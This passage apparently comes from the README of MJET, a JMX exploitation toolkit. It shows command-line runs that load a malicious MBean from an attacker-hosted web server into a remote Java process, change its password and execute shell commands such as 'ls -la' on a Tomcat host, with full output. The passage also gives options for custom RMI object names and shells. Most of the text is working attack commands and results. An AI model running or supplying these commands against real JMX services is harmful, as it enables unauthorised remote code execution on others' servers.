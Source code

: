 ```bash
[+] Started localhost proxy on port 45401
[+] Connected: rmi://172.17.0.1  17
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://172.17.0.1:6666
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
172.17.0.2 - - [24/Mar/2020 18:07:01] "GET / HTTP/1.1" 200 -
[+] Successfully loaded MBeanMogwaiLabs:name=payload,id=1
[+] Changing default password...
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Successfully changed password
[+] Done
``` 

### Custom RMI Object Name
Sometimes it happens that the RMI object name of the JMX endpoint is not jmxrmi, in this case the parameter --rmiObjectName can be used to specify the appropriate RMI object name, for example --rmiObjectName=customJmxRmi.
```bash
$ jython mjet.py --rmiObjectName=customJmxRmi 172.17.0.2 2222 super_secret install http://172.17.0.1:8000 8000

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/customJmxRmi
[+] Connected: rmi://10.165.188.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://10.165.188.1:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
10.165.188.23 - - [26/Apr/2019 21:50:37] "GET / HTTP/1.1" 200 -
[+] Successfully loaded MBeanMogwaiLabs:name=payload,id=1
[+] Changing default password...
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Successfully changed password
[+] Done
$  
```

### Using own defined Shell
Sometimes it happens that the target system does not provide a /bin/bash or cmd.exe shell. In this case the optional parameter --shell can be specified, for example --shell="bash -c". By executing the javascript javaproperties.js with mjet.py, more details about the environment are given. 
```
$ jython mjet.py --shell="bash -c" 10.165.188.23 2222 command super_secret "ls -la"

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  4
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing command: ls -la
total 20
drwxr-xr-x  5 root    root    4096 Apr 26 11:12 .
drwxr-xr-x 33 root    root    4096 Apr 10 13:54 ..
lrwxrwxrwx  1 root    root      12 Aug 13  2018 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Aug 13  2018 lib
lrwxrwxrwx  1 root    root      17 Aug 13  2018 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Apr 26 11:12 policy
drwxrwxr-x  3 tomcat8 tomcat8 4096 Apr 10 13:54 webapps
lrwxrwxrwx  1 root    root      19 Aug 13  2018 work -> ../../cache/tomcat8


[+] Done
```

[?]: Returned error: